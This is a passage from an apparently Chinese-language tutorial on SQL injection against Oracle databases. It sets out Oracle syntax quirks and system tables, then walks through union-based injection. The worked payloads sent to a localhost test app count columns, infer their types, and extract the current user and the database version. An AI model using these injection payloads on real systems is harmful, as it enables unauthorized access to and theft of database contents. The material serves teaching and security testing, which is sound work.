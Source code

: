 **\[order by column\];**

  

**1、Oracle要求select后必须指明要查询的表名，可以用dual。**

**2、Oracle使用 || 拼接字符串，MySQL中为或运算。**

**单引号和双引号在Oracle中虽然都是字符串，但是双引号可以用来消除关键字，比如sysdate。**

**3、Oracle中limit应该使用虚表中的rownum字段通过where条件判断。**

**4、Oracle中没有空字符，''和’null’都是null，而MySQL中认为''是一个字符串。**

  

**Oracle的系统表：**

**– dba\_tables : 系统里所有的表的信息，需要DBA权限才能查询**

**– all\_tables : 当前用户有权限的表的信息**

**– user\_tables: 当前用户名下的表的信息**

**– DBA\_ALL\_TABLES：DBA 用户所拥有的或有访问权限的对象和表**

**– ALL\_ALL\_TABLES：某一用户拥有的或有访问权限的对象和表**

**– USER\_ALL\_TABLES：某一用户所拥有的对象和表**

**DBA\_TABLES >= ALL\_TABLES >= USER\_TABLES**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**3、注入类型**

**3.1. 联合查询**

****1、order by 猜字段数量****

**union select进行查询，需要注意的是每一个字段都需要对应前面select的数据类型(字符串/数字)。所以我们一般先使用null字符占位，然后逐位判断每个字段的类型，比如：  
**

**http://localhost:8080/oracleInject/index?username=admin' union select null,null,null from dual -- 正常**

**http://localhost:8080/oracleInject/index?username=admin' union select 1,null,null from dual -- 正常说明第一个字段是数字型**

**http://localhost:8080/oracleInject/index?username=admin' union select 1,2,null from dual -- 第二个字段为数字时错误**

**http://localhost:8080/oracleInject/index?username=admin' union select 1,'asd',null from dual -- 正常 为字符串 依此类推**

**SQL**

****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)****

**2、查数据库版本和用户名**

**http://localhost:8080/oracleInject/index?username=admin' union select 1,(select user from dual),(SELECT banner FROM v$version where banner like 'Oracle%25') from dual --** 
